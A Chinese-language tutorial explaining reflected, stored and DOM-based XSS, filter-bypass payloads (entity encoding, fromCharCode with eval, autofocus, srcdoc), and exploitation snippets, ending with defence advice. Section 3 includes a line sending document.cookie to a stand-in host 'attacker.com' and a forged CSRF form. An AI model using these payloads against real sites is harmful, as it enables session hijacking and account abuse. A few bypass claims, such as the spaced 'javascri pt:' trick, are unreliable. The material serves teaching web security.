 # XSS攻击类型与绕过技术的攻击技术详解

## 1. XSS攻击类型概述

跨站脚本攻击（XSS，Cross-Site Scripting）是一种常见的Web安全漏洞，攻击者通过在目标网站中注入恶意脚本，使得这些脚本在用户浏览器中执行，从而窃取用户数据、劫持会话或进行其他恶意操作。XSS攻击主要分为以下三种类型：

### 1.1 反射型XSS（Reflected XSS）
反射型XSS是最常见的XSS攻击类型。攻击者将恶意脚本作为参数附加到URL中，当用户点击该URL时，服务器将恶意脚本反射回用户的浏览器并执行。这种攻击通常通过社交工程手段诱导用户点击恶意链接。

**示例：**
```html
http://example.com/search?q=<script>alert('XSS')</script>
```
当用户访问该URL时，浏览器会弹出一个警告框，显示“XSS”。

### 1.2 存储型XSS（Stored XSS）
存储型XSS攻击中，恶意脚本被永久存储在目标服务器上（如数据库、文件系统等）。当其他用户访问包含该恶意脚本的页面时，脚本会被执行。这种攻击通常出现在用户输入内容被存储并显示给其他用户的场景中，如论坛、评论系统等。

**示例：**
攻击者在论坛的评论框中输入：
```html
<script>alert('XSS')</script>
```
当其他用户查看该评论时，恶意脚本会在他们的浏览器中执行。

### 1.3 DOM型XSS（DOM-based XSS）
DOM型XSS攻击不涉及服务器端，而是完全在客户端发生。攻击者通过操纵页面的DOM结构，使得恶意脚本在用户的浏览器中执行。这种攻击通常发生在JavaScript动态生成页面内容时。

**示例：**
```javascript
var userInput = location.hash.substring(1);
document.write("Hello, " + userInput);
```
如果URL为：
```html
http://example.com/#<script>alert('XSS')</script>
```
浏览器会执行恶意脚本。

## 2. XSS攻击的常见绕过技术

为了绕过常见的XSS防御机制，攻击者开发了多种技术。以下是几种常见的绕过技术：

### 2.1 编码绕过
许多Web应用程序会对用户输入进行HTML编码或JavaScript编码，以防止XSS攻击。攻击者可以通过使用不同的编码方式或编码组合来绕过这些防御。

**示例：**
- **HTML实体编码绕过：**
  如果应用程序将`<`和`>`编码为`&lt;`和`&gt;`，攻击者可以使用`&#x3C;`或`&#60;`来绕过。
  ```html
  <img src=x onerror=alert('XSS')>
  ```
  可以替换为：
  ```html
  <img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x58;&#x53;&#x53;&#x27;&#x29;>
  ```

- **JavaScript编码绕过：**
  如果应用程序对JavaScript代码进行编码，攻击者可以使用`eval`函数来执行编码后的代码。
  ```javascript
  eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41));
  ```

### 2.2 事件处理程序绕过
许多XSS防御机制会过滤或转义常见的JavaScript事件处理程序（如`onerror`、`onclick`等）。攻击者可以通过使用不常见的事件处理程序或动态生成事件处理程序来绕过这些防御。

**示例：**
```html
<img src=x onmouseover=alert('XSS')>
```
可以替换为：
```html
<img src=x onfocus=alert('XSS') autofocus>
```

### 2.3 属性值绕过
某些XSS防御机制会过滤或转义HTML标签的属性值。攻击者可以通过在属性值中插入空格、换行符或其他特殊字符来绕过这些防御。

**示例：**
```html
<img src="javascript:alert('XSS')">
```
可以替换为：
```html
<img src="javascri pt:alert('XSS')">
```

### 2.4 DOM操作绕过
在DOM型XSS攻击中，攻击者可以通过操纵DOM结构来绕过防御机制。例如，攻击者可以使用`innerHTML`或`document.write`来动态插入恶意脚本。

**示例：**
```javascript
document.getElementById('content').innerHTML = "<img src=x onerror=alert('XSS')>";
```

### 2.5 利用浏览器特性绕过
不同的浏览器对HTML和JavaScript的解析方式有所不同，攻击者可以利用这些差异来绕过XSS防御机制。

**示例：**
- **IE浏览器特性：**
  IE浏览器允许在`<img>`标签中使用`style`属性来执行JavaScript代码。
  ```html
  <img style="xss:expression(alert('XSS'))">
  ```

- **Chrome浏览器特性：**
  Chrome浏览器允许在`<iframe>`标签中使用`srcdoc`属性来执行JavaScript代码。
  ```html
  <iframe srcdoc="<script>alert('XSS')</script>"></iframe>
  ```

## 3. XSS攻击的利用方式

XSS攻击的利用方式多种多样，攻击者可以根据目标应用程序的特点和防御机制选择合适的利用方式。以下是几种常见的利用方式：

### 3.1 窃取用户会话
攻击者可以通过XSS攻击窃取用户的会话Cookie，从而冒充用户进行恶意操作。

**示例：**
```javascript
var img = new Image();
img.src = "http://attacker.com/steal?cookie=" + document.cookie;
```

### 3.2 重定向用户
攻击者可以通过XSS攻击将用户重定向到恶意网站，从而进行钓鱼攻击或其他恶意操作。

**示例：**
```javascript
window.location.href = "http://attacker.com";
```

### 3.3 修改页面内容
攻击者可以通过XSS攻击修改页面的内容，从而欺骗用户或传播恶意信息。

**示例：**
```javascript
document.body.innerHTML = "<h1>You have been hacked!</h1>";
```

### 3.4 发起CSRF攻击
攻击者可以通过XSS攻击发起跨站请求伪造（CSRF）攻击，从而在用户不知情的情况下执行恶意操作。

**示例：**
```javascript
var form = document.createElement('form');
form.method = 'POST';
form.action = 'http://example.com/transfer';
var input = document.createElement('input');
input.type = 'hidden';
input.name = 'amount';
input.value = '1000';
form.appendChild(input);
document.body.appendChild(form);
form.submit();
```

## 4. 防御措施

为了有效防御XSS攻击，开发者应采取以下措施：

- **输入验证和过滤：** 对所有用户输入进行严格的验证和过滤，确保输入内容符合预期格式。
- **输出编码：** 在将用户输入内容输出到页面时，进行适当的HTML编码、JavaScript编码等。
- **使用安全的API：** 避免使用`innerHTML`、`document.write`等不安全的API，使用`textContent`等安全的API代替。
- **设置HTTP头：** 设置`Content-Security-Policy`（CSP）头，限制页面中可以执行的脚本来源。
- **定期安全审计：** 定期对应用程序进行安全审计，及时发现和修复潜在的安全漏洞。

通过采取这些措施，可以有效降低XSS攻击的风险，保护用户数据和应用程序的安全。

---

*文档生成时间: 2025-03-11 11:52:00*
